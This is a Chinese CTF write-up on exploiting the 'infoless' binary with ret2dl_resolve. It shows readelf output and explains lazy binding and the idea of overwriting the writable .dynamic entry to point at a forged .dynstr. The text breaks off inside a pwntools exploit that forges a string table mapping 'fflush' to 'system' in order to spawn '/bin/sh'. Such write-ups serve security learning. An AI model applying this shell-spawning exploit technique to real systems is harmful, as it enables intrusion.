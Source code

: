 除此之外就没有信息了，所以这题考察的就是如何在缺少信息的情况下getshell，这里用到的一种技术就是ret_2_dl_resolve。

关于`.dynamic`：
```
root@kali ~/c/2/p/infoless# readelf -d infoless 

Dynamic section at offset 0x70c contains 24 entries:
  标记        类型                         名称/值
 0x00000001 (NEEDED)                     共享库：[libc.so.6]
 0x0000000c (INIT)                       0x8048340
 0x0000000d (FINI)                       0x80485c4
 0x00000019 (INIT_ARRAY)                 0x8049700
 0x0000001b (INIT_ARRAYSZ)               4 (bytes)
 0x0000001a (FINI_ARRAY)                 0x8049704
 0x0000001c (FINI_ARRAYSZ)               4 (bytes)
 0x6ffffef5 (GNU_HASH)                   0x804818c
 0x00000005 (STRTAB)                     0x804825c
 0x00000006 (SYMTAB)                     0x80481bc
 0x0000000a (STRSZ)                      109 (bytes)
 0x0000000b (SYMENT)                     16 (bytes)
 0x00000015 (DEBUG)                      0x0
 0x00000003 (PLTGOT)                     0x80497f8
 0x00000002 (PLTRELSZ)                   32 (bytes)
 0x00000014 (PLTREL)                     REL
 0x00000017 (JMPREL)                     0x8048320
 0x00000011 (REL)                        0x8048300
 0x00000012 (RELSZ)                      32 (bytes)
 0x00000013 (RELENT)                     8 (bytes)
 0x6ffffffe (VERNEED)                    0x80482e0
 0x6fffffff (VERNEEDNUM)                 1
 0x6ffffff0 (VERSYM)                     0x80482ca
 0x00000000 (NULL)                       0x0
```
ELF文件的.dynamic section里包含了ld.so用于运行时解析函数地址的信息。

通过半天多的努力终于算是理解掌握了ret_to_dl_resolve的利用方法。。正如如上所说，这里的关键点是理解linux的lazy binding的工作方式，由于要伪造三个节信息并且完全计算偏移，所以我认为不熟练的话还是需要花时间调试offset的。但是我看了别人的解法后发现了一个问题，那就是似乎`.dynamic`节似乎是可写的，那么我们似乎可以通过修改`.dynamic`的偏移信息使得直接定位`.dynstr`的地址到我们伪造的`.dynstr(bss)`上了。

参考exp:
```
#!/usr/bin/python
# -*- coding:utf-8 -*- 
 
from pwn import *
from time import *
 
vulFunAddr = 0x080484CB
readpltAddr = 0x08048380
fflushpltAddr = 0x08048390
dynstrInDynamicAddr = 0x08049750
bssAddr = 0x08049820
 
strTable = ['', 'libc.so.6','_IO_stdin_used', 'fflush', 'stdin', 'read', 'stdout', 'stderr', 'setvbuf','__libc_start_main', '__gmon_start__', 'GLIBC_2.0', '']
strTable[3] = 'system'
#将伪造的dynstr表中的fflush函数给换成system
binShellStr = '/bin/sh\0'
expOffset = 22
payloadHead = 'a'*expOffset
 
def writeStrTableToBSS(baseAddr):
   tempBSS = baseAddr
    #循环写入伪造的dynstr表
   for i in strTable:
```